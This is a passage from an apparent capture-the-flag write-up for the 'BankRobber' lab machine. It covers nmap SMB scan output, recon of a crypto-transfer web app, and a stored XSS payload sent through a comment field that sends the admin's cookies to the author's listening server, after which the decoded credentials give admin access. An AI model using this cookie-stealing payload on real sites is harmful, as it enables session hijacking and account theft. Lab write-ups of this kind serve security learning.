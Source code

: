 > |_smb-os-discovery: ERROR: Script execution failed (use -d to debug)<br/>
> | smb-security-mode:<br/>
> |   account_used: guest<br/>
> |   authentication_level: user<br/>
> |   challenge_response: supported<br/>
> |_  message_signing: disabled (dangerous, but default)<br/>
> | smb2-security-mode:<br/>
> |   2.02:<br/>
> |_    Message signing enabled but not required<br/>
> | smb2-time:<br/>
> |   date: 2020-03-06T07:31:11<br/>
> |_  start_date: 2020-03-06T06:06:14<br/>
> Read data files from: /usr/bin/../share/nmap<br/>
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

It shows that there is a web service running on that machine, since web is the largest attack surface let’s take a look…

![]({{ site.baseurl }}/images/BankRobber-Writeup/1.png)

some sort of crypto currency website … interesting.
Also there is login/register functionality
After registering and logging in we see this form :

![]({{ site.baseurl }}/images/BankRobber-Writeup/2.png)

after trying to send some Crypto to a random id this alert pops up:

![]({{ site.baseurl }}/images/BankRobber-Writeup/3.png)

So the admin can review our request, here... the first thing to think about should be client side attacks such as xss to steal admin’s cookies

# 2-User Access

I did setup a local http server using python:

![]({{ site.baseurl }}/images/BankRobber-Writeup/4.png)

and sent this js payload through the comment section :

```
<script>new  Image().src="http://10.10.14.118/test?output="+document.cookie;</script>
```

and after some fails I got this reply:

![]({{ site.baseurl }}/images/BankRobber-Writeup/5.png)

After decoding username and password I got this :

![]({{ site.baseurl }}/images/BankRobber-Writeup/6.png)

After logging in with admin’s creds we could see this form:
